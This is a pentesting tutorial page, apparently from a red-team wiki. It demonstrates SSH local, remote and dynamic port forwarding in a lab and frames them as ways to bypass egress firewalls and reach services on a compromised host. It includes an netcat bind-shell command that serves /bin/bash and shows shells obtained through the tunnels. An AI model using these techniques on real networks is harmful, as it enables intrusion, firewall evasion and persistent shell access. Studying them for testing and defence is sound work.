 ```yaml
---
description: Exploring SSH tunneling
---
```


# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.

For example, if you have a host that you want to access, but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER which DOES have access to the host you want to access. Let's see an example.

### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999 or 10.0.0.5:9999\) and forward it all that to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../../.gitbook/assets/ssh-local-port-1.png)

### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port to the host you want to connect to.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host that runs the service that is only accessible from inside that host.

### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back to me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" caption="" %}

